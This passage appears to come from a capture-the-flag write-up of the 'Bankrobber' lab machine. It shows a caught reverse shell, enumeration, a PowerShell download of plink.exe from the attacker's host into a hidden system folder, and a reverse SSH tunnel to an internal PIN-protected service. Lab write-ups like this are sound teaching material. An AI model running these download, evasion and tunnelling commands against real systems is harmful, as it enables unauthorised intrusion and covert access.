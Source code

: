 ```
└──╼ $nc -lvp 4444
listening on [any] 4444 ...
10.10.10.154: inverse host lookup failed: Unknown host
connect to [10.10.14.40] from (UNKNOWN) [10.10.10.154] 51129
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. Alle rechten voorbehouden.

C:\xampp\htdocs\admin>whoami
whoami
bankrobber\cortin
```
Now we can being enumerating the OS and begin enumerating services/proccesses/files for a privledge esculation.

Interesting we found a bankv2.exe binary in the root directory file.

```
C:\xampp\htdocs\admin>netstat -a
netstat -a

Active Connections

  Proto  Local Address          Foreign Address        State
  TCP    0.0.0.0:80             Bankrobber:0           LISTENING
  TCP    0.0.0.0:135            Bankrobber:0           LISTENING
  TCP    0.0.0.0:443            Bankrobber:0           LISTENING
  TCP    0.0.0.0:445            Bankrobber:0           LISTENING
  TCP    0.0.0.0:910            Bankrobber:0           LISTENING
  TCP    0.0.0.0:3306           Bankrobber:0           LISTENING
```
We can also see a unorthodox service on 910.

So I droped another tool on the system `plink.exe` a much more evasive means to remain silent while forwarding a port.

### Command and Control


So I droped another tool on the system `plink.exe` a much more evasive means to remain silent while forwarding a port through a reverse tunnel.

Run `powershell.exe` and Invoke a request to get plink.
```
Invoke-WebRequest -Uri "http://10.10.14.40/plink.exe" -OutFile "C:\\windows\\system32\\spool\\drivers\\color\\plink.exe"
```
our C2:
```
10.10.10.154 - - [21/Mar/2020 06:33:52] "GET /plink.exe HTTP/1.1" 200 -
```
Fire up plink and foreward the port onto the C2 through a reverse ssh tunnel so make sure you have `ssh service start` running.
```
#.\plink.exe -P 22 -l account -N -C -R 4000:127.0.0.1:910 10.10.14.40
```
so now we can see that this is a internal bank service that prompts us for a pin.
```
┌─[account@parrot]─[~/tmp]
└──╼ $nc localhost 4000
 --------------------------------------------------------------
 Internet E-Coin Transfer System
 International Bank of Sun church
                                        v0.1 by Gio & Cneeliz
 --------------------------------------------------------------
 Please enter your super secret 4 digit PIN code to login:
 [$] 

```